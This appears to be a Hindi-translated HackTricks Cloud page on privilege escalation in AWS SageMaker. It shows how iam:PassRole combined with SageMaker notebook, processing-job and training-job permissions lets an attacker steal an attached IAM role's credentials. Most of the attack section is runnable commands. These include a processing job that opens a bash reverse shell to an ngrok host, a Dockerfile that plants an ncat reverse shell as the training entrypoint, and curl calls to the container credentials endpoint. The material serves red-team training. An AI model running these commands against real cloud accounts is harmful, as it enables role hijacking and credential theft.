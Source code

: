 # AWS - Sagemaker Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## sagemaker

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

इसके साथ जुड़े IAM Role के साथ एक नोटबुक बनाना शुरू करें:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
प्रतिक्रिया में `NotebookInstanceArn` फ़ील्ड होनी चाहिए, जिसमें नवनिर्मित नोटबुक इंस्टेंस का ARN होगा। फिर हम `create-presigned-notebook-instance-url` API का उपयोग करके एक URL जेनरेट कर सकते हैं, जिसका उपयोग हम नोटबुक इंस्टेंस तैयार होने पर उस तक पहुँचने के लिए कर सकते हैं:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
ब्राउज़र के साथ URL पर नेविगेट करें और ऊपर दाएं में `Open JupyterLab` पर क्लिक करें, फिर "Launcher" टैब तक स्क्रॉल करें और "Other" सेक्शन के अंतर्गत "Terminal" बटन पर क्लिक करें।

अब IAM Role के मेटाडेटा क्रेडेंशियल्स तक पहुँच संभव है।

**संभावित प्रभाव:** sagemaker सेवा भूमिका के लिए Privesc निर्दिष्ट।

### `sagemaker:CreatePresignedNotebookInstanceUrl`

यदि वहां Jupyter **नोटबुक पहले से चल रहे हैं** और आप उन्हें `sagemaker:ListNotebookInstances` के साथ सूचीबद्ध कर सकते हैं (या किसी अन्य तरीके से उन्हें खोज सकते हैं)। आप **उनके लिए एक URL जनरेट कर सकते हैं, उन तक पहुँच सकते हैं, और पिछली तकनीक में बताए गए अनुसार क्रेडेंशियल्स चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**संभावित प्रभाव:** sagemaker सेवा भूमिका से Privesc संलग्न है।

### `sagemaker:CreateProcessingJob,iam:PassRole`

इन अनुमतियों वाला हमलावर **sagemaker को प्रोसेसिंगजॉब निष्पादित करने** के लिए बना सकता है जिससे sagemaker भूमिका जुड़ी होती है। हमलावर उस कंटेनर की परिभाषा को इंगित कर सकता है जो **AWS प्रबंधित ECS खाता उदाहरण** में चलाया जाएगा, और **संलग्न IAM भूमिका की साख चुरा सकता है**।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**संभावित प्रभाव:** sagemaker सेवा भूमिका के लिए Privesc निर्दिष्ट।

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

इन अनुमतियों वाला हमलावर एक प्रशिक्षण नौकरी बना सकता है, **मनमाने कंटेनर को चलाते हुए** उस पर एक **भूमिका संलग्न** कर सकता है। इसलिए, हमलावर उस भूमिका की साख चुरा सकता है।

{% hint style="warning" %}
यह परिदृश्य पिछले एक से अधिक कठिन है क्योंकि आपको एक Docker छवि उत्पन्न करनी होगी जो सीधे हमलावर को rev shell या creds भेजेगी (आप प्रशिक्षण नौकरी के कॉन्फ़िगरेशन में एक प्रारंभिक कमांड निर्दिष्ट नहीं कर सकते)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**संभावित प्रभाव:** sagemaker सेवा भूमिका तक Privesc निर्दिष्ट।

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

इन अनुमतियों वाला हमलावर (संभवतः) एक **hyperparameter प्रशिक्षण नौकरी** बनाने में सक्षम होगा, जिस पर एक **मनमाना कंटेनर चल रहा होगा** और उससे एक **भूमिका संलग्न** होगी।\
_मैंने समय की कमी के कारण इसका शोषण नहीं किया है, लेकिन यह पिछले शोषणों के समान दिखता है, शोषण विवरण के साथ PR भेजने के लिए स्वतंत्र महसूस करें।_

# संदर्भ
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>शून्य से नायक तक</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें।**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PR भेजकर अपनी हैकिंग तरकीबें साझा करें।

</details>
